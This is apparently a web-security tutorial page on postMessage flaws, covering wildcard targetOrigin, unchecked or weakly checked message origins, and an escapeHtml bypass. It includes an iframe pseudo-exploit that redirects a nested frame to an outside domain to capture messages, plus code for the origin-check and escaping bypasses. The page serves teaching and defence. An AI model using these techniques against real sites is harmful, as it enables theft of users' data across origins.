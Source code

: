 # PostMessage Vulnerabilities

## **PostMessages wildcards**

**PostMessage** uses the following function to send a message:

```javascript
targetWindow.postMessage(message, targetOrigin, [transfer]);
```

Check that **targetOrigin** could be a url like [https://company.com](https://company.com), so the messages can only be sent to that user \(secure\). Or it cloud be a wildcard "**\***". In case a wildcard is used, messages could be sent to any domain.

### Attack

In [**this report**](https://blog.geekycat.in/google-vrp-hijacking-your-screenshots/) you can read how you could **iframe a page** that at some point may **sent** a **postmessage** using a **wildcard as targetOrigin** and **modify it's location so the data will be sent to an arbitrary domain**. In order to be able to perform this attack **X-Frame header must not be present** in the vuln page.

```markup
<html>
    <iframe src="https://docs.google.com/document/ID" />
    <script>
       //pseudo code


        setTimeout(function(){ exp(); }, 6000);

        function exp(){
        setInterval(function(){ 
         window.frames[0].frame[0][2].location="https://geekycat.in/exploit.html";
        }, 100);
        }
    </script>
</html>
```

## addEventListener exploitation

In order to treat the messages a code similar to the following one will be used:

```javascript
window.addEventListener("message", (event) => {
  if (event.origin !== "http://example.org:8080")
    return;

  // ...
}, false);
```

Note in this case how the first thing that the code is doing is **checking the origin**. This is terribly **important** mainly if the page is going to do **anything sensitive** with the received information \(like changing a password\). If it doesn't check the origin, attackers can make victims send arbitrary data to this endpoints and change the victims passwords \(in this example\).

It's important to check the origin and it's **equally important to check it right:**

### Tips/Bypasses in PostMessage vulnerabilities

Copied from [https://jlajara.gitlab.io/web/2020/07/17/Dom\_XSS\_PostMessage\_2.html](https://jlajara.gitlab.io/web/2020/07/17/Dom_XSS_PostMessage_2.html)

* If `indexOf()` is used to check the origin of the PostMessage event, remember that it can be bypassed if the origin is contained in the string as seen in [_The Bypass_](https://jlajara.gitlab.io/web/2020/07/17/Dom_XSS_PostMessage_2.html#bypass)
* [@filedescriptor](https://twitter.com/filedescriptor): Using `search()` to validate the origin could be insecure. According to the docs of `String.prototype.search()`, the method takes a regular repression object instead of a string. If anything other than regexp is passed, it will get implicitly converted into a regexp.

```javascript
"https://www.safedomain.com".search(t.origin)
```

In regular expression, a dot \(.\) is treated as a wildcard. In other words, any character of the origin can be replaced with a dot. An attacker can take advantage of it and use a special domain instead of the official one to bypass the validation, such as **www.s.afedomain.com**.

* [@bored-engineer](https://bored.engineer/): If `escapeHtml` function is used, the function does not create a `new` escaped object, instead it over-writes properties of the existing object. This means that if we are able to create an object with a controlled property that does not respond to `hasOwnProperty` it will not be escaped.

```javascript
// Expected to fail:
result = u({
  message: "'\"<b>\\"
});
result.message // "&#39;&quot;&lt;b&gt;\"
// Bypassed:
result = u(new Error("'\"<b>\\"));
result.message; // "'"<b>\"
```

`File` object is perfect for this exploit as it has a read-only `name` property which is used by our template and will bypass `escapeHtml` function.

## Tools

{% embed url="https://github.com/benso-io/posta" caption="" %}

